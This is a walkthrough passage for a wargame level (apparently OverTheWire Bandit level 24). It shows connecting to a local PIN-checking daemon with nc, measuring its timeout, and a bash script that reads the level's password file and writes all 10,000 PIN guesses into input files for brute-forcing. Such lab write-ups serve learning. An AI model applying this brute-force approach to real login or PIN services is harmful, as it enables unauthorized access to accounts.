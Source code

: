 ### Level 24

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

First of we, we need to see what is going on by connecting to that daemon.

```bash
bandit24@bandit:/tmp/tokumei$ time nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
111 111
Wrong! Please enter the correct current password. Try again.
222 222
Wrong! Please enter the correct current password. Try again.
Timeout. Exiting.

real    0m30.065s
user    0m0.002s
sys     0m0.000s
```

Once connected, you will be prompted a password and a pin. If the input is wrong, it will print that wrong message. I also timed it to see when it kicks you out. So this daemon will automatically kick you out after 30 seconds. The best way i feel to have approached this problem was to generate a file with all possible inputs and pass it into nc. But because of the timeout limit, I had to split the inputs into files for two separate connections. First I went into my temp folder \(or create a new one\) and created a script to generate inputs called generateinput.sh and chmod 777 it.

```bash
#!/bin/bash
# password was retrieved via file
pw=$(cat /etc/bandit_pass/bandit24)

# all iterations from 0000 to 9999
for i in {0000..9999}
do
        if [ $i -gt 5000 ]
        then
                echo "$pw $i" >> bruteInputs2
        else
                echo "$pw $i" >> bruteInputs
        fi
done
```

Run the script for it to generate the two bruteInputs files. 

```bash
bandit24@bandit:/tmp/tokumei$ ./generateinput.sh
bandit24@bandit:/tmp/tokumei$ ls -l
total 396
-rw-r--r-- 1 bandit24 bandit24     33 Apr 13 00:00 24key
-rwxr-xr-x 1 bandit24 bandit24    213 Apr 13 00:12 24.sh
-rw-r--r-- 1 bandit24 bandit24 190038 Apr 13 02:33 bruteInputs
-rw-r--r-- 1 bandit24 bandit24 189962 Apr 13 02:33 bruteInputs2
-rwxrwxrwx 1 bandit23 root         65 Apr 12 20:09 copy.sh
-rwxr-xr-x 1 bandit24 bandit24    180 Apr 13 02:33 generateinput.sh
-rwxr-xr-x 1 bandit24 bandit24    254 Apr 13 01:08 test24.sh
```
